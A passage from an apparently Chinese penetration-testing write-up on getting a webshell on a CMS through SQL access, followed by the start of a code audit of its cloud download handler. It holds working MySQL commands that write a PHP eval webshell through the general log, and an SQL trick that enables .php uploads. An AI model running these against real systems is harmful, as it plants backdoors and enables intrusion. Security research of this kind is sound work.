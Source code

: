 ```
UPDATE ims\_core\_settings SET value = replace(value, 'pppppp', 'php ')
```

 |

更新缓存，之后就可以上传`"*.php "`文件了。但是有限制，适用于 apache 下，而且版本有限制。目标站不使用该方法的原因有二，一是该系统上传的位置是腾讯云 COS 上，二是 server 是 Tengine。

**第二种方法：**

第二种方法也是和 sql 执行有关，利用日志文件写 shell。

| 

```
show variables like '%general%';  #查看配置
set global general\_log = on;  #开启general log模式
set global general\_log\_file = '/var/www/html/1.php';   #设置日志目录为shell地址
select '<?php eval($\_POST\[cmd\]);?>'  #写入shell
```

 |

或者通过慢查询（slow\_query\_log）的方法写 shell。但目标系统也是失败，执行 sql 的时候报错。

还有一些其他的方法，这里测试也是失败的，就不再列举了。

**0x03 代码审计**
-------------

病急乱投医，熬成老中医。既然之前的方法不管用，只好去翻代码吧，找找是否有新的利用方式。翻出之前的一个文档，从里面找到之前的审计过程，看能否对现在有用。结果打开发现只有一个数据包和还有一句未实现的结论。

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwo8BGPNYVo7nI4M5icjjsDvHicMibXWhaQACElatkzV9Y79jYAb8U779uaaONhWmp2ZdK9tBopSbCCg/640?wx_fmt=png)

没办法，只好重新围着这个点继续审计，看是否能有所进展。

### 1\. 分析

打开文件`web/source/cloud/dock.ctrl.php`，找到执行的`download`方法。

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwo8BGPNYVo7nI4M5icjjsDvNiafa5rme42tbxEGxkZW7ocUge16pjHR1cfNicdWKWFMicaa8B2WyrzCg/640?wx_fmt=png)

代码比较简单，我大概说一下这里的流程：

如果请求包非 Base64 加密的格式，那么`$data`就是请求包的内容。然后对`$data`进行发序列化返回`$ret`，接下来获取`$ret['file']`并 Base64 解密返回`$file`。当存在`gzcompress`和`gzuncompress`这两个函数时，就会利用`gzuncompress`函数对`$file`进行解压操作。

将获取的`$file`进行 md5 加密后，与`$ret['path']`以及获取的`$_W['setting']['site']['token']`进行拼接为`$string`。当满足`$_W['setting']['site']['token']`非空并且`$string`md5 加密后的结果与`$ret['sign']`一致时，才可以进行下面的操作。下面就是文件的写入了，根据`$ret['path']`进行判断，然后写入的位置不一样。

这里关键的一点就是`$_W['setting']['site']['token']`这个值的获取。这个是利用 authcode 函数对`cache_load(cache_system_key('cloud_transtoken'))`进行解密获取的。

`authcode`函数位于`framework/function/global.func.php`文件中。
